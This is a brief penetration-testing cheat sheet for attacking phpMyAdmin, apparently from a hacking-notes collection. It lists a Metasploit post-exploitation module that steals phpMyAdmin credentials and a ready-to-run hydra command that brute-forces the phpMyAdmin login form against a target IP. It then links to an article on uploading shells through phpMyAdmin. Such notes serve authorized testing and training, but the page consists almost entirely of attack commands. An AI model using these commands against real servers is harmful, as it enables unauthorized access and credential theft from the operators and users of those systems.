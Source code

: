 # Manual

```
msf > use post/linux/gather/phpmyadmin_credsteal
```

## Bruteforce

```
$ hydra -L users.lst -P passwords.lst http-form-post "/phpmyadmin/index.php:pma_username=^USER^&pma_password=^PASS^:#1045 Cannot log in to the MySQL server" -vV -f <IP>
```

---
## References

- [Hacking Articles: Shell Uploading in Web Server through PhpMyAdmin](https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/)

- [Rapid7: Metasploit Framework PhpMyAdmin Creds Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/linux/gather/phpmyadmin_credsteal.md)